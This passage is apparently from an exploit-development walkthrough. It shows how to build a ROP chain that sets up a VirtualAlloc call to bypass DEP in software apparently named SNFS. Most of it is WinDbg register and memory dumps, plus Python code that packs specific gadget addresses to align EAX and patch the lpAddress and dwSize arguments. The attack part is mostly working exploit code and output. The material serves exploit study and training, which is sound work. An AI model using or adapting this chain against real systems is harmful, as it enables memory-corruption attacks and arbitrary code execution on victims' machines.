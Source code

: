 We confirm that everything works fine, and we note that `EAX` holds the value to our return address, however our `lpAddress` has already been matched as previously shown.

```python
0:006> dds eax - 4 L5
0191e2f0  100252e0 SNFS!_imp__VirtualAlloc
0191e2f4  0191e434
0191e2f8  0191e434
0191e2fc  0191e434
0191e300  00000000

0:006> r
eax=0191e2f4 ebx=42424242 ecx=100252e0 edx=ba4656e3 esi=42424242 edi=00669360
eip=10019c65 esp=0191e3ac ebp=0191e2f4 iopl=0         ov up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000a82
SNFS!_set_old_sbh_threshold+0x18:
10019c65 c3              ret
```

lpAddress

This argument should be equal to our shellcode address e.g. same value as our return address. We have already confirmed this is right, however our `EAX` value is off by `4 bytes` and we adjust the value to correctly align with the `lpAddress` parameter.

- Increase the `EAX` register by four bytes to align with next API skeleton call

```python
#1. We increase the stack with 4 bytes again
### Patching Return Address by 4 bytes
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;
```

dwsize

DWSize should be `0x01`. Currently we have `EAX` holding the location to `lpAddress` and `EBP` holding the location to our return address. 

- We pop value `0xfffff` into `EAX` and negate it
- We then copy the `EAX` value to `ECX` so that we can utilise it to write to the memory location pointed to in `EAX`
- We add a valid memory location to `EAX` as the previous instruction will result in a non existing memory location that will be reference in the next gadget
- We restore our previous value from `EBP` into `EAX` undoing the `lpAddress` and other alignments, however, we can redo them
- We redo the alignment of `EAX` to point to the correct memory location for `dwsize` e.g. `EBP` + `8 bytes`
- Write `ECX` to the memory location held in `EAX` to patch the `dwSize` argument

```python

##################################
rop += pack("<L", (0x10014429)) # pop eax ; ret  ;
rop += pack("<L", (0xffffffff)) # -1 value that is negated
rop += pack("<L", (0x10015a25)) # NFS.dll.txt:10993:0x10015a25: neg eax ; pop edi ; pop esi ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop edi
rop += pack("<L", (0x42424242)) # pop esi

#copy eax to ecx
rop += pack("<L", (0x502162b5)) # push eax ; and al, 0x59 ; pop ecx ; ret  ;  (1 found)

#EAX will need valid memory address for the next gadget so we just add the virtualloc address
rop += pack("<L", (0x5021376f)) # pop eax ; ret  ;
rop += pack("<L", (0x100252E0)) # VirtualAlloc Address

```
